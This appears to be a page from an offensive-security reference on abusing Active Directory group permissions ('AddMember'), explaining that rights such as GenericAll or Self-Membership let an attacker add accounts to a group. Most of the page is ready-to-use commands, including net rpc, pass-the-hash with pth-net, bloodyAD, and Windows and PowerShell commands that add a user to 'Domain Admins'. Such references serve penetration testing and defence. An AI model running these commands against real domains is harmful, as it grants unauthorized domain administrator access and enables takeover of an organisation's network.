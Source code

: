 ```yaml
---
authors: CravateRouge, ShutdownRepo, sckdev
category: ad
---
```


# AddMember

This abuse can be carried out when controlling an object that has a `GenericAll`, `GenericWrite`, `Self`, `AllExtendedRights` or `Self-Membership`, over the target group.

::: tabs

=== UNIX-like

It can also be achieved from UNIX-like system with [net](https://linux.die.net/man/8/net), a tool for the administration of samba and cifs/smb clients. The [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit) can also be used to run net commands with [pass-the-hash](../ntlm/pth.md).

```bash
# With net and cleartext credentials (will be prompted)
net rpc group addmem "$TargetGroup" "$TargetUser" -U "$DOMAIN"/"$USER" -S "$DC_HOST"

# With net and cleartext credentials
net rpc group addmem "$TargetGroup" "$TargetUser" -U "$DOMAIN"/"$USER"%"$PASSWORD" -S "$DC_HOST"

# With Pass-the-Hash
pth-net rpc group addmem "$TargetGroup" "$TargetUser" -U "$DOMAIN"/"$USER"%"ffffffffffffffffffffffffffffffff":"$NT_HASH" -S "$DC_HOST"
```

Alternatively, it can be achieved using [bloodyAD](https://github.com/CravateRouge/bloodyAD)

```bash
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" add groupMember "$TargetGroup" "$TargetUser"
```


=== Windows

The attacker can add a user/group/computer to a group. This can be achieved with a native command line, with the Active Directory PowerShell module, or with [Add-DomainGroupMember](https://powersploit.readthedocs.io/en/latest/Recon/Add-DomainGroupMember/) ([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module).

```bash
# Command line
net group 'Domain Admins' 'user' /add /domain

# Powershell: Active Directory module
Add-ADGroupMember -Identity 'Domain Admins' -Members 'user'

# Powershell: PowerSploit module
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'user'
```

:::
